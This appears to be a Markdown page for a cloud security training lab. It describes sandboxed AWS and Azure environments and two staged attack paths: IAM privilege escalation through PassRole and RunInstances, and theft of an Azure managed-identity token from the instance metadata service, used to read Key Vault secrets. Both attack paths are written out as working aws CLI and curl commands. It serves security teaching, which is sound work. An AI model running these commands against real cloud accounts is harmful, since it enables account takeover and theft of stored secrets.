

## 🌩️ Enterprise Cloud Security Labs

The Cloud Security Labs are deployed within isolated AWS and Azure sandboxes. These environments are structured to safely simulate enterprise cloud account takeovers, IAM privilege escalations, metadata access, and storage bucket configuration audits.



### 📋 Environment Architecture

*   **Amazon Web Services (AWS) Lab**:
    *   **Orchestration**: Infrastructure-as-code using **Terraform** to provision network elements, VPCs, IAM policies, and instances.
    *   **Vulnerable Host**: An EC2 instance hosting a vulnerable web server, configured with an attached Instance Profile.
    *   **Misconfiguration**: The attached IAM role possesses excessive permissions, allowing the creation of new roles and attachment of policies.
*   **Microsoft Azure Lab**:
    *   **Orchestration**: Provisioned using ARM templates in a dedicated developer tenant.
    *   **Vulnerable Host**: An Azure Virtual Machine running a public-facing container.
    *   **Misconfiguration**: The VM is assigned a User-Assigned Managed Identity that holds permissions over an enterprise Key Vault containing database access keys.

---

## 💥 Staged Cloud Attack Paths

### 1. AWS IAM Privilege Escalation via PassRole & EC2 Execution
*   **Root Cause**: The compromised EC2 instance's IAM role possesses the permissions `iam:PassRole` and `ec2:RunInstances` on all resources.
*   **Exploitation Scenario**: An attacker uses these credentials to launch a new, separate EC2 instance. By specifying an administrator IAM role in the instance configuration, they escalate privileges to full cloud administrator.
*   **Execution Commands**:
    ```bash
    # 1. Verify credentials permissions
    aws iam list-attached-role-policies --role-name compromised-ec2-role
    
    # 2. Run new EC2 instance with the target Admin Profile attached
    aws ec2 run-instances \
        --image-id ami-0123456789abcdef0 \
        --instance-type t2.micro \
        --iam-instance-profile Name=admin-instance-profile \
        --key-name my-ssh-key \
        --security-group-ids sg-0123456789abcdef0
    ```

### 2. Azure Instance Metadata Key Vault Exfiltration
*   **Root Cause**: A web application running on an Azure VM is vulnerable to local file inclusion or SSRF, permitting requests to the internal Azure Instance Metadata Service (IMDS).
*   **Exploitation Scenario**: Trigger an outbound web query to IMDS to retrieve an Azure Active Directory (AAD) OAuth access token, then use it to authenticate to Azure Key Vault and extract secrets.
*   **Execution Commands**:
    ```bash
    # 1. Retrieve the Azure AD OAuth access token from the metadata endpoint
    curl -s -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net" > token.json
    
    # 2. Extract access token value
    ACCESS_TOKEN=$(jq -r '.access_token' token.json)
    
    # 3. Authenticate to Azure Key Vault to read private application secrets
    curl -s -H "Authorization: Bearer $ACCESS_TOKEN" "https://prod-vault-58.vault.azure.net/secrets/db-password?api-version=7.0"
    ```

---

### 🔗 Back to Hub
- [Return to Security Labs Hub]({{ '/labs/' | relative_url }})
